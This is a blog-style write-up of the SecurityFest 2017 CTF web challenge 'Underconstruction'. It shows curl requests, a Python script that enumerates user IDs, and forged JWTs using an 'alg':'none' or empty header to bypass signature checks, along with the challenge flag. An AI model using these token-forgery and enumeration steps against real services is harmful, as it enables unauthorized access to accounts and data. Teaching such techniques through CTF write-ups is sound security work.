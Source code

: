 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-06-02
date: 2017-06-02
title: SecurityFest2017 - Underconstruction
tags: jwt
mathjax: false
imagefeature: 
description: SecurityFest2017 - Underconstruction
category: Web Exploitation
chart: null
---
```



## Problems

```
Under Construction! Please protect your head, wear a hardhat.
Solves: 12
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen
```


## Writeup

at this web challenges we can read in the source code at root path

```html
<!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->
```

using this curl to login 
```
➔ curl -H "Content-Type: application/json" \
-X POST -d '{"username":"user","password":"password"}' \
http://web.ctf.rocks:8080/login
```

and we get this response 
```
< HTTP/1.1 200 
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY
< Content-Length: 51
< Date: Fri, 02 Jun 2017 03:23:30 GMT
< 
* Connection #0 to host web.ctf.rocks left intact
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

information we get is UserID:52 and authorizedURLs: ['/login','/apis'] , and we got authorization header 
with JWT (Json Web Token).

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY`
jwt have 3 part `<header>.<payload>.<signature>` 

```
Header : 
➔ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}% 

Payload : 
➔ echo -n eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0 | base64 -d
{"user":"user","exp":1497237810}

Signature :
*Signature is constructed using this algorithm 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
secret
)

*Concatenating base64 header and payload with "." and encrypt with some custom secret string

```

let's trying what /apis endoint does with this curl.

```
➔ curl -H "Content-Type: application/json" \
-X GET \         
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' http://web.ctf.rocks:8080/apis
{"timestamp":1496374182620,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required Integer parameter 'userId' is not present","path":"/apis"}% 
```

missing parameter `userId`

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/apis?userId=52" 
{"urls":["/login","/apis"],"id":52,"user":"user"}
```

using some python to enumurate other users urls.

```python
import requests
import json

url = "http://web.ctf.rocks:8080/apis"



payload = "{\"username\": \"user\", \"password\":\"password\"}"
headers = {
    'content-type': "application/json",
    'cookie': "JSESSIONID=4B17338B92DFAF214BAF7D40F29FC561",
    'authorization': "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5ODI2MH0.FwX2y37d7C1eQdiLgrsyCoWc-PbMb_O4KfKT3KtpQZw",
    'cache-control': "no-cache",
    'postman-token': "c8908859-4423-0bf5-1049-db1bc7ffcc27"
    }


for x in range(100):
    querystring = {"userId":x}
    response = requests.request("GET", url, data=payload, headers=headers, params=querystring)
    result = json.loads(response.text)
    print(result['urls'], x, result['user'])
```

get this result

```
([u'/login', u'/apis', u'/supersecretflagresource'], 0, u'admin')
([u'/login', u'/apis'], 1, u'Patrik')
([u'/login', u'/apis'], 2, u'Joakim')
([u'/login', u'/apis'], 3, u'Joakim')
([u'/login', u'/apis'], 4, u'Joakim')
([u'/login', u'/apis'], 5, u'Joakim')
([u'/login', u'/apis'], 6, u'Joakim')
([u'/login', u'/apis'], 7, u'Joakim')
([u'/login', u'/apis'], 8, u'Joakim')
([u'/login', u'/apis'], 9, u'Joakim')
([u'/login', u'/apis'], 10, u'Joakim')
```

we got some interesting urls `/supersecretflagresource`.
but we can't access it directly because they validating our Authorization header JWT is not Admin

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374542889,"status":403,"error":"Forbidden","message":"Access is denied","path":"/supersecretflagresource"}
```

I am not solving this while the competition but trying to documenting this is a good challenge.
if we change the JWT payload part to `{"user":"admin","exp":1497237810}` this will trigger exception because
the signature validation is error.

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcyMzc4MTB9.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374872312,"status":500,"error":"Internal Server Error","exception":"io.jsonwebtoken.SignatureException","message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.","path":"/supersecretflagresource"}
```

so after reading some writeup there are 2 ways to bypass this restriction :
1. change the header algorithm to none and empty signature the payload `{"user":"admin","exp":1497099449}` `<header>.<payload>.`
2. using empty header and empty signature and change the payload to `{"user":"admin","exp":1497099449}` `.<payload>.`

the first way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

second way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer .eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

i am prefer the second way from here `https://losfuzzys.github.io/writeup/2017/05/31/SCTF2017-underconstruction/`
and the author say will remove the confusing part at v1.0 `https://github.com/jwtk/jjwt/issues/212`

so to get the flag just open `https://kits.se?kokitotsos` and fire up console run the javascript function

```js
function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}
```


*Nb : i am trying >12Hour cracking the password of signature to construct a valid signature but got nothing

Flag : `SCTF{lolKOKITOTSOS}`